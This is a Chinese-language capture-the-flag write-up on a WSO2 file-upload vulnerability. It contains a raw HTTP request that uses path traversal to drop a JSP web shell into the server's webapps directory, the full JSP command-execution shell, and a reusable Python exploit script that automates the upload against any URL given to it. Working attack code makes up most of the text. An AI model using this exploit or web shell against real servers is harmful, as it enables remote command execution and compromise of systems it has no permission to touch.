

<!--more-->

<!-- Place resource files in the current article directory and reference them using relative paths, like this: ``. -->


 攻击者可以上传恶意 JSP 文件到 WSO2 服务器的 web 目录（如 `/repository/deployment/server/webapps`)，从而通过 HTTP 请求直接访问并执行该文件。
弱口令admin\admin发现登陆进去并没有什么用。
刷新登陆界面，修改host值上传wavesky.jsp文件到指定目录，根据poc抓包修改

```
POST /fileupload/toolsAny HTTP/1.1
Host: eci-2ze5ic6lllh6zsnt7m7o.cloudeci1.ichunqiu.com:9443
Accept: */*
Accept-Encoding: gzip, deflate
Content-Length: 901
Content-Type: multipart/form-data; boundary=4ef9f369a86bfaadf5ec3177278d49c0
User-Agent: python-requests/2.22.0
 
--4ef9f369a86bfaadf5ec3177278d49c0
Content-Disposition: form-data; name="../../../../repository/deployment/server/webapps/authenticationendpoint/shell.jsp"; filename="../../../../repository/deployment/server/webapps/authenticationendpoint/shell.jsp"
 
<FORM>
    <INPUT name='cmd' type=text>
    <INPUT type=submit value='Run'>
</FORM>
<%@ page import="java.io.*" %>
    <%
    String cmd = request.getParameter("cmd");
    String output = "";
    if(cmd != null) {
        String s = null;
        try {
            Process p = Runtime.getRuntime().exec(cmd,null,null);
            BufferedReader sI = new BufferedReader(new
InputStreamReader(p.getInputStream()));
            while((s = sI.readLine()) != null) { output += s+"</br>"; }
        }  catch(IOException e) {   e.printStackTrace();   }
    }
%>
        <pre><%=output %></pre>
--4ef9f369a86bfaadf5ec3177278d49c0--
```




上传成功，访问

``` url
https://eci-2ze5ic6lllh6zsnt7m7o.cloudeci1.ichunqiu.com:9443/shell.jsp
```


进行命令执行，找到flag


读取flag


exp：

``` python
import requests
import urllib3
 
urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)
 
url = input("请输入URL：")
file = "shell.jsp"
payload = """<FORM>
    <INPUT name='cmd' type=text>
    <INPUT type=submit value='Run'>
</FORM>
<%@ page import="java.io.*" %>
    <%
    String cmd = request.getParameter("cmd");
    String output = "";
    if(cmd != null) {
        String s = null;
        try {
            Process p = Runtime.getRuntime().exec(cmd,null,null);
            BufferedReader sI = new BufferedReader(new
InputStreamReader(p.getInputStream()));
            while((s = sI.readLine()) != null) { output += s+"</br>"; }
        }  catch(IOException e) {   e.printStackTrace();   }
    }
%>
        <pre><%=output %></pre>"""
 
files = {f"../../../../repository/deployment/server/webapps/authenticationendpoint/{file}": payload}
response = requests.post(f'{url}/fileupload/toolsAny', files=files, verify=False)
print(f"shell @ {url}/authenticationendpoint/{file}")
```
